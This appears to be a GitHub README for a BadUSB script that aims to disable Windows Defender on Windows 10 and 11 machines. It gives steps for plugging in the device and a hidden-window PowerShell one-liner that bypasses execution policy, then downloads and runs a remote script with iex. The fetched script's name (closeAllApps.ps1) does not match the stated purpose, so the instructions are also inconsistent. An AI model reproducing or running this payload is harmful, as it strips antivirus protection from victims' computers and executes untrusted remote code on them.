 # Disable Defender - BadUSB ✅

A script used to disable Windows Defender.

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to disable Windows Defender.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Opens app searcher, search for `windows defender\seguridad de windows` (Must be change depending on Locale)
* Execute command to disable Windows defender on directory C:\

All
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/CloseAllApps/closeAllApps.ps1').Content"
```
